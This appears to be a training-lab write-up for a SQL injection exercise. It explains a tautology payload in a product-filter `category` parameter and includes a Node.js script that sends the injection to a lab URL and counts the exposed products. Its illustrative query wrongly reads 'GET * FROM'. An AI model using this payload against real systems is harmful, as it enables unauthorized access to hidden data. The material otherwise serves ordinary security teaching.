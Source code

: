 # 1 - Retrieve Hidden Data

### Notes

The SQLi exists in the `category` query parameter used by the product category filter feature:

```http
GET /filter?category=%27+OR+1=1-- HTTP/1.1
```

The underlying query therefor becomes something like:

```sql
GET * FROM products WHERE category='' OR 1=1--';
```

### Scripted Solution

```javascript
const { JSDOM } = require('jsdom')
require('dotenv').config({ path: './.env' })

/**
 * Run exploit.
 */
async function main() {
  const levelUrl = process.env.LEVEL_URL

  // Get number of products visible on lab home page
  console.log('Getting home page product count...')
  const homeDom = await JSDOM.fromURL(levelUrl)
  const homeProductNodes = homeDom.window.document.querySelectorAll(
    '.container-list-tiles div'
  )
  console.log(`Number of home page products: ${homeProductNodes.length}.`)

  // Get number of products after SQL injection exploit
  console.log('Performing SQLi and getting updated product count...')
  const SQLi = "'+OR+1=1--"
  const SQLiDom = await JSDOM.fromURL(`${levelUrl}/filter?category=${SQLi}`)
  const SQLiProductNodes = SQLiDom.window.document.querySelectorAll(
    '.container-list-tiles div'
  )
  console.log(`Number of home page products: ${SQLiProductNodes.length}.`)
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```
